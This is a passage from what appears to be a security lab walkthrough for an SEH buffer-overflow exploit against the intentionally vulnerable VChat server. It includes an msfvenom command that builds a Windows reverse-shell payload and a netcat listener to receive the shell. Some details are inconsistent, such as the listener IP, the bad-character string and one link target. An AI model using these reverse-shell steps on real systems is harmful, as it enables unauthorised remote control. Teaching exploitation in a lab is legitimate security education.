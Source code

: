 	5. Modify your exploit to reflect [exploit13a-MULT.py](./SourceCode/exploit13a-MULT.py), then test it!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/ed4fc693-7510-409b-beb0-83b3c6123ed4

		1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			<img src="Images/I16.png" width=600>

		2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			<img src="Images/I26.png" width=600>

		3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program.

			<img src="Images/I53.png" width=800>

4.  Generate the second stage reverse shell code using ```msfvenom``` program, and create a exploit as shown in [exploit13b-MULT.py](./SourceCode/exploit13b-MULT.py).
	<!-- Look into ADD -a x86 and --platform windows -->
	```
	$ msfvenom  -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
      	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format.
    	* `python`: Format for use in Python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values.
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline.

> [!NOTE]
>  Be sure to run the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 while running [exploit13b-MULT.py](./SourceCode/exploit6.py)

```
$ nc -l -v -p 8080
```
* `nc`: The netcat command
* `-l`: Set netcat to listen for connections
* `v`: Verbose output
* `p`: Set to listen on a port, in this case port 8080.

## Attack Mitigation Table
In this section we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server, specifically we will be discussing their effects on a buffer overflow that overwrites a SEH record and attempts to execute shellcode that has been written to the stack. We will make a note that some mitigations may be bypassed if the target application contains additional vulnerabilities such as a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack), or by using more complex exploits like [Return Oriented Programming (ROP)](https://github.com/DaintyJet/VChat_TRUN_ROP).

